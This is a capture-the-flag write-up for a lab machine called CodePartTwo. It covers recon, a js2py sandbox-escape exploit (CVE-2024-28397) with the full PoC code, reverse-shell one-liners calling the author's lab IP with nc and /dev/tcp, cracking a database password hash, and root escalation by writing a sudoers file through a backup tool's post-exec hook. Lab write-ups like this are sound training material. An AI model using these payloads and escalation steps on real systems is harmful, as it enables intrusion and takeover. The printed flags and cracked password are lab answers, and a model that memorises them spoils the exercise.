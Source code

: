 ```yaml
---
layout: default
title: CodePartTwo
---
```


### Recon

First we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap results](image.png)

So, we got port `8000` opened and running http server on it, *Gunicorn* server, version 20.0.4
```bash
PORT     STATE SERVICE VERSION
8000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Welcome to CodePartTwo
```

### Exploit CVE-2024-28397-js2py-Sandbox-Escape

When accessing the website in port `8000`, we can see the source code, and also that we can execute commands in the /dashboard tab.
![execute commands](image-1.png)

In the source code, in `app/app.py`, we can see those lines:
```py
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

So, it uses `js2py.eval_js` to execute commands. After googling, i found that we can achieve RCE, and this github repo jumped to me https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/.

We can use the PoC it supplies:
```js
// [+] command goes here:
let cmd = "head -n 1 /etc/passwd; calc; gnome-calculator; kcalc; "
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
```

We need to change the command, I tried to execute this `sh -i >& /dev/tcp/10.10.14.168/770 0>&1` to achieve remote shell, but it didn't work.
So, i used other payload from https://www.revshells.com/, I tried with `mkfifo`, and it worked.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.168 770 >/tmp/f
```

So, let's paste those commands, to achieve easier shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Get db file and analyze it

We can see the user `marco`, but when trying to access his `/home` directory, we get access denied, because we only have privileges of `app` user.

Okay, after some searching, i came to the file `users.db` inside `/app/instance`, and decided to pull it out, using simple http server.
on remote server:
```bash
python3 -m http.server 1337
```
on my machine:
```bash
curl http://$target:1337/users.db -o users.db
```
![get users.db](image-2.png)

We start with `file` to check what is the file, 
```bash
┌──(agonen㉿kali)-[~/htb/CodePartTwo]
└─$ file users.db          
users.db: SQLite 3.x database, last written using SQLite version 3031001, file counter 4, database pages 4, cookie 0x2, schema 4, UTF-8, version-valid-for 4
```
Okay, this is sqlite3 database file, let's open it: 
```bash
sqlite3 users.db
```

We can use `.tables` to show available tables, and then select all data from `user` table, using `select * from user;`

![sqlite3](image-3.png)

```
sqlite> select * from user;
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
```

using https://crackstation.net/ we managed to crack the password of marco, which is `sweetangelbabylove`.
![crack station](image-4.png)

I tried to `ssh` to the machine, using the user `marco` and it's password:
```bash
ssh marco@$target
```

![ssh to marco](image-5.png)

Now, let's grab the user flag:
```bash
marco@codeparttwo:~$ cat /home/marco/user.txt
4cbd9ff095cbd1daeaaf6994bc239f46
```

### Escalate Privilege

We start with `sudo -l`, to view what marco can do:
```bash
marco@codeparttwo:~$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

we can see he can execute `/usr/local/bin/npbackup-cli` as root. In the `npbackup.conf` we can see this line:
```
post_exec_commands: []
```
maybe we can add our own commands, and then when we will do backup, it'll run those commands as an admin.

Let's try to add these commands, the idea is to give marco the ability to do anything:
```bash
echo 'marco ALL=(ALL) NOPASSWD: ALL' > /etc/sudoers.d/marco; chmod 440 /etc/sudoers.d/marco
```

![added post commands](image-7.png)

And now, we'll execute backup, `-c` to supply the conf file, `-b` to say we want backup, and `-f` to force it, even if there is nothing new to backup.
```bash
sudo /usr/local/bin/npbackup-cli -c /tmp/npbackup.conf -b -f
```

Now we can check again using `sudo -l`:
```bash
marco@codeparttwo:~$ sudo -l
Matching Defaults entries for marco on codeparttwo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codeparttwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
    (ALL) NOPASSWD: ALL
```

And we got it! we can summon shell or simply reading the root flag:
```
marco@codeparttwo:~$ sudo cat /root/root.txt
6b753ed66a2fbfd92fe5e291ccd3e1e2
```

![get root flag](image-6.png)

**User Flag:*****`4cbd9ff095cbd1daeaaf6994bc239f46`***

**Root Flag:*****`6b753ed66a2fbfd92fe5e291ccd3e1e2`***
